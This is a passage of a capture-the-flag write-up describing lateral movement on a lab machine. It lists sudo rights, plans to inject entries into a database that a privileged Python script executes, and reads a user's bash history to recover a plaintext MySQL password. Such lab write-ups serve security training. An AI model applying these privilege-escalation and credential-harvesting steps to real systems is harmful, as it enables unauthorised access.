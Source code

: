 Boom.

# Lateral Movement - Privilege Escalation

## Lucien to Death

We can start with [[Lateral Movement]] checking permissions :

```bash
lucien@ip-10-10-8-38:/$ sudo -l
Matching Defaults entries for lucien on ip-10-10-8-38:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-10-8-38:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py

```

We can try it :

```bash
lucien@ip-10-10-137-212:/home$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

```

We find the same script in /opt, but password is redacted for death, let's retrieve mysql credentials for lucien and use them to connect to the database and add fake entries in the `dreamer` and/or `dream` columns that will be executed by the `getDreams.py` script :

```bash
lucien@ip-10-10-137-212:~$ cat .bash_history 
ls
cd /etc/ssh/
clear
nano sshd_config
su root
cd ..
ls
cd ..
cd etc
ls
..
cd ..
cd usr
cd lib
cd python3.8
nano shutil.py 
clear
clear
su root
cd ~~
cd ~
clear
ls
mysql -u lucien -plucien42DBPASSWORD

```
